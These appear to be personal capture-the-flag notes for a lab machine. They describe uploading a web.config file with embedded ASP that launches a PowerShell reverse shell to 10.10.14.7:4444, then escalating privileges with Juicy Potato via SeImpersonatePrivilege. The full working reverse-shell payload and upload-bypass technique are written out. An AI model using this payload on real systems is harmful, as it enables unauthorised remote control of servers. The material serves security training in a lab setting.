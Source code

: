 ## Takeaway
- Different ways to get PowerShell reverse shell
	- 1. Invoke-PowerShellTcp.ps1 (nishang)
	- 2. Invoke-ConPtyShell.ps1
- `netcat` can be very useful if your initial reverse shell is behaving weirdly. One needs to transfer `netcat` to download file from victim machine anyway so why not just transfer upon initial foothold.
## Metadata
- Arbitrary File Upload aspx file identified by `gobuster`.![[Pasted image 20231219184216.png]]![[Pasted image 20231219184239.png]]
- Files uploaded can be found under  `http://10.10.10.93/uploadedfiles`.
#### 
- 
- <mark>Exploitation</mark>
	- Upload a reverse shell payload named `web.config` since directly upload of file with extension `.aspx` is disallowed.
	```bash
	<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("powershell.exe -c $client = New-Object System.Net.Sockets.TCPClient('10.10.14.7',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()")
%>
	```
	- Execute payload by navigating to `http://10.10.10.93/uploadedfiles/web.config`.
- User merlin has dangerous `SeImpersonatePrivilege` enabled.![[Pasted image 20231220214831.png]]
- <mark>Post-Exploitation</mark>'
	- Use `juicy potato` to escalate privileges![[Pasted image 20231220215012.png]]![[Pasted image 20231220215451.png]]
	```bash
	https://github.com/ohpe/juicy-potato/tree/master
	```